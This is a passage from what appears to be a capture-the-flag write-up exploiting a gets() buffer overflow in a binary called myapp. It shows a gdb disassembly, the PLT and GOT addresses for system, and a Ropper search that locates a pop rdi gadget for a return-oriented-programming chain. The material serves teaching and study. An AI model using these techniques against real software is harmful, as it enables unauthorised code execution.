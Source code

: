 ```
   0x0000000000401195 <+54>:    call   0x401060 <gets@plt>
   0x000000000040119a <+59>:    lea    rax,[rbp-0x70]
   0x000000000040119e <+63>:    mov    rdi,rax
   0x00000000004011a1 <+66>:    call   0x401030 <puts@plt>
   0x00000000004011a6 <+71>:    mov    eax,0x0
   0x00000000004011ab <+76>:    leave  
   0x00000000004011ac <+77>:    ret    
End of assembler dump.

```

I’ll grab the address of `main()` (0x40115f) for later. Where I see `system` called, what is called is the PLT address for `system` (0x401040). If I look at that address, I’ll see both the PLT address and the GOT address (0x404020):

```

gdb-peda$ x/i 0x401040
   0x401040 <system@plt>:       jmp    QWORD PTR [rip+0x2fda]        # 0x404020 <system@got.plt>

```

Now I need a POP RDI gadget. I’ll use [Ropper](https://github.com/sashs/Ropper):

```

root@kali# ropper -f myapp | grep rdi
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x000000000040108a: adc dword ptr [rax], eax; mov rdi, 0x40115f; call qword ptr [rip + 0x2f56]; hlt; nop dword ptr [rax + rax]; ret; 
0x000000000040119b: lea eax, dword ptr [rbp - 0x70]; mov rdi, rax; call 0x1030; mov eax, 0; leave; ret; 
0x000000000040119a: lea rax, qword ptr [rbp - 0x70]; mov rdi, rax; call 0x1030; mov eax, 0; leave; ret; 
0x0000000000401087: mov ecx, 0x4011b0; mov rdi, 0x40115f; call qword ptr [rip + 0x2f56]; hlt; nop dword ptr [rax + rax]; ret; 
0x0000000000401086: mov rcx, 0x4011b0; mov rdi, 0x40115f; call qword ptr [rip + 0x2f56]; hlt; nop dword ptr [rax + rax]; ret; 
0x000000000040108d: mov rdi, 0x40115f; call qword ptr [rip + 0x2f56]; hlt; nop dword ptr [rax + rax]; ret; 
0x000000000040119e: mov rdi, rax; call 0x1030; mov eax, 0; leave; ret; 
0x00000000004010c6: or dword ptr [rdi + 0x404048], edi; jmp rax; 
0x0000000000401090: pop rdi; adc dword ptr [rax], eax; call qword ptr [rip + 0x2f56]; hlt; nop dword ptr [rax + rax]; ret; 
0x000000000040120b: pop rdi; ret; 
0x000000000040119c: xchg eax, r8d; mov rdi, rax; call 0x1030; mov eax, 0; leave; ret; 
0x000000000040119d: nop; mov rdi, rax; call 0x1030; mov eax, 0; leave; ret; 

```

The gadget at 0x40120b looks perfect.
